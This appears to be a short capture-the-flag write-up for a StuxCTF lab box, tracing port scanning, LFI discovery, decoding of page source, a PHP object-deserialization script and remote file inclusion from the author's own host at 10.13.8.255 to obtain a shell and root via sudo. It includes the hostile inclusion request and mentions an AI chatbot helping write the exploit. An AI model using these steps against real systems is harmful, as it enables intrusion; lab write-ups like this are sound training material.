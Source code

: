 Started with a nmap scan
```
22 OpenSSH 7.2p2
80 Apache 2.4.18
```
I did a basic nmap scan for the http server and found a `robots.txt` file with one disallowed entry `/StuxCTF/` so lets start a gobuster on this folder but did not find anything going back to the main page if you look at the source there is some strings that go to a hidden folder after using chat GPT to help me with the math problem and got the hidden folder when you go to the folder and look at the source of the page there is a hint `/?file=` and doing a ffuf can for parameters `file` was the only one so when testing for LFI I did find if we just input `index.php` we get a hash and on anything else we get file does not exist so decoding the hash it was in hex and then had to reverse the text and base64 decode it agin then got the source code to the index.php file and looking at it we need to serialized the php object had chatGPT help me with a  script and now we have to download it to the webserver `/?file=http://10.13.8.255/shell.txt` and then we need to run the file  so just `/shell.php` and now we have a connection back and now if we do `sudo -l` we can run anything on as root 